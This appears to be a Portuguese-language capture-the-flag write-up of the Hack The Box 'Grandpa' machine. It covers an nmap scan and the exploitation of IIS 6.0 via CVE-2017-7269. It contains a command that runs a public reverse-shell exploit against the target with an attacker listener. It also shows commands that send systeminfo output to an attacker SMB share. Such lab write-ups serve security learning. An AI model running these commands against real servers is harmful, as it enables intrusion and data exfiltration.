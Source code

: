 ```yaml
---
title:     "Hack The Box - Grandpa"
tags: [windows,easy]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/1.jpg)

## Discovery

Iniciamos entao nossa enumeracao usando o nmap

```
┌─[✗]─[htb-an4kein☺parrot]─[/htb/grandpa]
└──╼ $sudo nmap -Pn -p- -sV -oN nmap/allports_tcp 10.10.10.14
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-25 18:43 UTC
Stats: 0:01:48 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 95.31% done; ETC: 18:45 (0:00:05 remaining)
Nmap scan report for 10.10.10.14
Host is up (0.072s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Percebemos que existe apenas a porta 80 aberta, rodando uma servidor WEB na versao bem velha 

## Exploitation
Lembro que na maquina [Granny](https://an4kein.github.io/hackthebox/2020/06/24/HTB-Granny/)  explorei uma versao identica, logo vou testar o exploit usado nela pra tentar obter exito.. 

***preference*** https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

Entao, executamos o exploit apos configurar nossa porta de preferencia para ficar escultando, eu escolhi a 53

`sudo python iis6-cve-2017-7269.py 10.10.10.14 80 10.10.14.36 53`

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/2.jpg)


## Privilege Escalation

Precisamo agora obter informacoes basicas do nosso alvo e assim continuar procurando um vetor de ataque para escalar o privilegio
Grupos, Permissoes, Arquiterura, Versao do sistema, etc.. sao informacoes necessarias para escalar.

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/3.jpg)

transfiro entao o output do `systeminfo` para meu localhost

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/4.jpg)


## Rascunho

```
systeminfo >> \\10.10.14.36\tools\systeminfo.txt
sudo python /opt/impacket/examples/smbserver.py tools .
```
